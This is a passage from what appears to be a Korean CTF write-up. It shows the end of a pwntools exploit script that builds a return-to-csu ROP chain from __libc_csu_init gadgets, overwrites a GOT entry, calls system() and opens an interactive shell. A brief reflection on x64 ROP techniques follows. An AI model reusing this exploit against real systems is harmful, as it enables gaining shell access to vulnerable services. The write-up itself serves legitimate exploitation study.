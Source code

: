     # call read(0,write_got_addr,8)
    payload2+=gadget_2
    
    # setting system(bss_addr)
    payload2+=p64(0) 
    payload2+=p64(0) #rbx
    payload2+=p64(1) #rbp
    payload2+=p64(write_got) #r12
    payload2+=p64(8) #r13
    payload2+=p64(0)  #r14
    payload2+=p64(bss_addr) #r15
    
    # call system(bss_addr)
    
    payload2+=gadget_2
    pause()
    p.send(payload2)
    sleep(1)
    pause()
    p.sendline(system_base)
    
    p.interactive()
    #payload+=gadget_2
    #payload+=

<br><br>

### 4. 몰랐던 개념

---

사실 __libc_csu_init 동작원리는 몰라도 되고 여기에 존재하는 가젯을 이용만 잘 하면 되는 문제다.

요 앞에 한 5개 정도 다 ROP 문제였는데, 기본 ROP 부터, 상황이 조금씩 달라지는 문제들이 나왔다.

결론은 x64에서는 가젯을 처리하는 것이 관건이기 때문에 RTC를 이용하는 방법과 syscall을 이용하는 ROP 방법을 방법을 새로 알게 되었다.

<br><br>